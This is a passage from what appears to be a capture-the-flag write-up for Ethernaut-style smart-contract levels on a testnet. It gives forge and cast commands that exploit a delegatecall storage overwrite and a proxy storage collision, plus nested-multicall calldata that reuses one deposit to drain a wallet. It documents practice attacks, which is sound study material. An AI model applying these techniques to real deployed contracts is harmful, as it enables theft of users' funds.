 ### Attack

```shell
$ forge create \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --interactive \
    --json \
    src/AttackPreservation.sol:AttackPreservation | tee | jq '.deployedTo' | export ADDRESS_AttackPreservation=$(cat)
$ cast send \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --interactive \
    "$ADDRESS_Preservation" \
    "setFirstTime(uint256)" "0x000000000000000000000000<ADDRESS_AttackPreservation>"
$ cast send \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --interactive \
    "$ADDRESS_Preservation" \
    "setFirstTime(uint256)" "0x000000000000000000000000<ADDRESS_Attacker>"
```

---

## Puzzle Wallet

### Storage layout

| Slot | PuzzleProxy variable | PuzzleWallet variable | Initial value|
| --- | --- | --- | --- |
| 0 | address pendingAdmin | address owner | _Level address_ |
| 1 | address admin | uint256 maxBalance | _Level address_ |
| _IMPLEMENTATION_SLOT | address implementation | - | _PuzzleWallet address_ |

### Attack

1. As we have a storage collision, we can become the _Wallet_ owner by setting the `pendingAdmin` in the _Proxy_ to our address;
2. To become the _Proxy_ `admin` we need to set the _Wallet_ `maxBalance` to our address.
    1. This is possible only if we drain funds from the contract first. The way to do that is to call `deposit()` a few times in the single `multicall(bytes[])` call.
    2. Finally, we need to bypass the `depositCalled` flag check. This can be done by using nested call to the `multicall` inside the `multicall`.

See more in the final [AttackPuzzleWallet script](./script/AttackPuzzleWallet.s.sol) or [tests](./test/PuzzleWallet.t.sol).

```shell
$ cast sig "deposit()"
0xd0e30db0

$ cast calldata "multicall(bytes[])" "[0xd0e30db0]"
0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000

# This calldata will execute nested multicall() with deposit() and then regular deposit() thus using the same msg.value twice.
$ cast pretty-calldata --offline $(cast calldata "multicall(bytes[])" \
"[\
```